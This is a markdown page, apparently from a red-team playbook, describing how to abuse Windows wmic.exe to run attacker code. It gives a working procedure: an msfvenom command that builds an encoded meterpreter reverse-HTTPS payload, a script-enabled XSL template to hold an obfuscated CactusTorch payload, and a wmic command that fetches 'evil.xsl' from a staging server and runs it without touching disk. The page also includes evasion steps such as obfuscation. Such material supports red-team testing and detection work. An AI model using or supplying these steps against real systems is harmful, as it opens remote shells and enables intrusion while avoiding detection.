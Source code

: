 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
## wmic.exe

`wmic.exe`

### References
* LOLBAS Project: Wmic.exe -<br />[https://lolbas-project.github.io/lolbas/Binaries/Wmic/](https://lolbas-project.github.io/lolbas/Binaries/Wmic/)

### Overview

Thanks to its built-in XSL-parsing capability, `wmic.exe` can be made to execute arbitrary JScript code (which can in turn execute shellcode).

* Requires .Net Framework 3.5 to be installed.

### Method 1: Using XSL + CactusTorch

1. Download the .js CactusTorch payload: <br />[https://github.com/mdsecactivebreach/CACTUSTORCH](https://github.com/mdsecactivebreach/CACTUSTORCH)
1. Generate a payload with msfvenom and encode it in base64:
```bash
msfvenom -e x86/fnstenv_mov -i 13 -f raw -p windows/meterpreter/reverse_https LHOST=<your-listener-server> LPORT=443 | base64 -w 0
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 13 iterations of x86/fnstenv_mov
x86/fnstenv_mov succeeded with size 522 (iteration=0)
...
x86/fnstenv_mov succeeded with size 811 (iteration=12)
x86/fnstenv_mov chosen with final size 811
Payload size: 811 bytes

<snipped-payload>
```
1. Copy the base64 output and paste it into the CactusTorch script
1. Run the entire CactusTorch script through a Javascript obfuscator
1. Copy obfuscated code and paste it into the CDATA section of a script-enabled stylesheet:
```xml
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[

PASTE OBFUSCATED CACTUSTORCH CODE HERE

	]]> </ms:script>
</stylesheet>
```
1. Host `.xsl` file on web server with a valid SSL certificate
1. Run the following command to execute the payload without touching disk:
```cmd
wmic os get /format:"https://<your-staging-server>/evil.xsl"
```
**NOTE #1: For some unknown reason, this only works from cmd.exe and not from Powershell**
**NOTE #2: Also, the URL must use a hostname.**
